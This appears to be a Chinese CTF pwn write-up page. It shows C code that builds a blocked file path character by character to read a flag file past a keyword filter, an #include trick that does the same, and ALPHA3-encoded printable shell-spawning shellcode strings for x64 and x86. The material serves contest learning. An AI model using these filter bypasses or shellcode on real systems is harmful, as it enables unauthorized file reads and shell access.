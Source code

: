 ```yaml
---
layout: post
title: "pwn writeups"
date: 2020-12-01 16:51:14 +0800
description: ""
category: ctf/bin
tags: []
---
```


#### 写C代码

DASCTF-May2020 × BJDCTF-3rd：[TaQiniOj-0](http://www.resery.top/2020/05/23/BJD%203nd%20&%20DASCTF%20%E4%BA%94%E6%9C%88%E6%9C%88%E8%B5%9Bwp)，禁用了关键字home|ctf|flag，使用字符数组，或者strcat拼接绕过

```c
#include<stdio.h>
#include <string.h>
int main(){
  char name[] = {'/','h','o','m','e','/','c','t','f','/','f','l','a','g','\0'};
  FILE* fp = NULL;
  char buff[255];
/*  char name[255];
  strcpy(name, "/hom");
  strcat(name, "e/ct");
  strcat(name, "f/fl");
  strcat(name, "ag");
*/
  fp = fopen(name, "r");
  fscanf(fp, "%s", buff);
  printf("%s", buff);
}
```

非预期：直接include

```c
#include "/home/ctf/fl\
ag"
```

#### 写shellcode

###### [shellcode范围printable](https://taqini.space/2020/03/31/alpha-shellcode-gen)

sample：[shellcode_revenge](https://blog.csdn.net/weixin_44145820/article/details/105565953)，mrctf2020，借助[alpha3](https://github.com/TaQini/alpha3)

```
payload = asm(shellcraft.sh())
python ./ALPHA3.py x64 ascii mixedcase rax --input="sc.bin" > out.bin
#x64: Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
#x86: Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2O7O0u7M7l1o1P0R7L0Y3T3D14000n000Q4q0f2s7n0Y0X020e3j2u1k000i013A7o4y3A114C1n0z0h4k4r0s
```

